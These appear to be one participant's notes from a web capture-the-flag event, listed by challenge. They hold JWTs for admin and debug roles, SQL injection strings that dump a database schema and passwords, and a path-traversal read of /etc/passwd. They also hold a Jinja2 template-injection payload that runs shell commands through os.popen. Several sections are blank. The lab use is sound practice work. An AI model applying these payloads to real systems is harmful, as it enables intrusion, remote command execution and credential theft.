 # Shadow API's

## Undoc
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRlYnVnIiwicm9sZSI6ImRlYnVnZ2VyIiwiaWF0IjoxNjE2MTYxNjE2fQ.H5Vrs2UW82Pi8LRRwwG0RKdM0xQwXMFsxETDJBBjOLQ

## Obscura
mine
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkRyYWdvbk1hZ2UxIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NDc5MDQ2Njh9.Yu2xMhqW-VVfSRJ03ZPkILmBIoWfanpQom8Fca8NIWo


debug
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRlYnVnIiwicm9sZSI6ImRlYnVnZ2VyIiwiaWF0IjoxNzQ3ODczOTEwLCJleHAiOjE3NTA0NjU5MTB9.VjFkiXQ0zCux6uG3eKuEqHB3yrgGMXmKvieAHhZotcQ

GET /logs/system.log HTTP/2

[2025-05-21T19:03:29.528Z] Admin token generated: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQ3ODc0MjA5fQ.4EKq37o0-pbJn9O9MlJGzPR03pnxmXzFRaVlmeF8h1I


GET /api/admin HTTP/





# Injection
## Search for secrets
' UNION SELECT name FROM sqlite_master WHERE type='table'; -- -
' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='users'; -- -


' UNION SELECT flag FROM flags; -- -

## Break the gate
"username":"TEST'UNION SELECT sql,sql FROM sqlite_master WHERE name='users'; -- -",

CREATE TABLE users (id INTEGER PRIMARY KEY, username TEXT, password TEXT, is_admin INTEGER)!"

alice (not admin)
"message":"Welcome, alicee7HV$8jP#zQr2@KmLn9!"

admin (admin)
"message":"Welcome, e7HV$8jP#zQr2@KmLn9!xDfG!"




# Slash and dash
##  Road less travelled
![[Pasted image 20250522095612.png]]
`root:x:0:0:root:/root:/bin/bash`
`daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin`
`bin:x:2:2:bin:/bin:/usr/sbin/nologin`
`sys:x:3:3:sys:/dev:/usr/sbin/nologin`
`sync:x:4:65534:sync:/bin:/bin/sync`
`games:x:5:60:games:/usr/games:/usr/sbin/nologin`
`man:x:6:12:man:/var/cache/man:/usr/sbin/nologin`
`lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin`
`mail:x:8:8:mail:/var/mail:/usr/sbin/nologin`
`news:x:9:9:news:/var/spool/news:/usr/sbin/nologin`
`uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin`
`proxy:x:13:13:proxy:/bin:/usr/sbin/nologin`
`www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin`
`backup:x:34:34:backup:/var/backups:/usr/sbin/nologin`
`list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin`
`irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin`
`_apt:x:42:65534::/nonexistent:/usr/sbin/nologin`
`nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin`

GET /api/read?file=/app/private/flag.txt 

## Filtered Fun
GET /api/read?file=/app/private/flag.txt
?

## Encoded esapades


# BugBountyHub

## Exception Excavation
Advanced users: We use Jinja2 templating for maximum flexibility.
`{"error":"'Template not found'","path":"/report/411/preview/411","method":"GET","timestamp":"2025-05-24T19:33:02.022317","debug":{"exception_type":"KeyError","stack_trace":"Traceback (most recent call last):\n  File \"/usr/local/lib/python3.9/site-packages/starlette/middleware/errors.py\", line 162, in __call__\n    await self.app(scope, receive, _send)\n  File \"/usr/local/lib/python3.9/site-packages/starlette/middleware/sessions.py\", line 86, in __call__\n    await self.app(scope, receive, send_wrapper)\n  File \"/usr/local/lib/python3.9/site-packages/starlette/middleware/exceptions.py\", line 79, in __call__\n    raise exc\n  File \"/usr/local/lib/python3.9/site-packages/starlette/middleware/exceptions.py\", line 68, in __call__\n    await self.app(scope, receive, sender)\n  File \"/usr/local/lib/python3.9/site-packages/fastapi/middleware/asyncexitstack.py\", line 21, in __call__\n    raise e\n  File \"/usr/local/lib/python3.9/site-packages/fastapi/middleware/asyncexitstack.py\", line 18, in __call__\n    await self.app(scope, receive, send)\n  File \"/usr/local/lib/python3.9/site-packages/starlette/routing.py\", line 718, in __call__\n    await route.handle(scope, receive, send)\n  File \"/usr/local/lib/python3.9/site-packages/starlette/routing.py\", line 276, in handle\n    await self.app(scope, receive, send)\n  File \"/usr/local/lib/python3.9/site-packages/starlette/routing.py\", line 66, in app\n    response = await func(request)\n  File \"/usr/local/lib/python3.9/site-packages/fastapi/routing.py\", line 237, in app\n    raw_response = await run_endpoint_function(\n  File \"/usr/local/lib/python3.9/site-packages/fastapi/routing.py\", line 163, in run_endpoint_function\n    return await dependant.call(**values)\n  File \"/app/app.py\", line 423, in preview_report_template\n    raise KeyError(\"Template not found\")\nKeyError: 'Template not found'\n\n# DEBUG: Secret flag is flag{st4ck_tr4c3s_r3v34l_s3cr3ts}\n","api_version":"1.1.0"}}`

## Render Bender
{{ lipsum.__globals__['__builtins__']['__import__']('os').popen('cat /app/flags/flag2.txt').read() }}



# Massive
PUT /api/profiles/me HTTP/2
GET /api/admin/dashboard HTTP/2

# Permission Slip
## MoleHill





